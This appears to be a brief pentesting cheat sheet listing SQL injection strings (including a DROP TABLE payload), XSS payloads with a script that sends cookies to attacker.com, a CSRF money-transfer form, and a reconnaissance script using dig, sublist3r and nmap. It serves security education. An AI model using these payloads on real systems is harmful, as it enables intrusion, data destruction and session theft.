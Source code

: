 ## Common Vulnerabilities

### 1. SQL Injection

```sql
-- Basic SQL injection
' OR '1'='1
' UNION SELECT 1,2,3--
'; DROP TABLE users--

-- Time-based blind SQL injection
'; WAITFOR DELAY '00:00:05'--
```

### 2. Cross-Site Scripting (XSS)

```html
<!-- Reflected XSS -->
<script>alert('XSS')</script>

<!-- Stored XSS -->
<img src=x onerror=alert('XSS')>

<!-- DOM-based XSS -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

### 3. Cross-Site Request Forgery (CSRF)

```html
<!-- CSRF attack -->
<form action="http://target.com/transfer.php" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
    <input type="submit" value="Click here for free money">
</form>
```

## Penetration Testing Methodology

### 1. Planning & Reconnaissance

```bash
#!/bin/bash
# Reconnaissance script

TARGET=$1

echo "Starting reconnaissance for $TARGET"

# DNS enumeration
echo "=== DNS Enumeration ==="
dig $TARGET ANY
dig $TARGET MX
dig $TARGET NS

# Subdomain discovery
echo "=== Subdomain Discovery ==="
sublist3r -d $TARGET

# Port scanning
echo "=== Port Scanning ==="
nmap -sS -O $TARGET
```
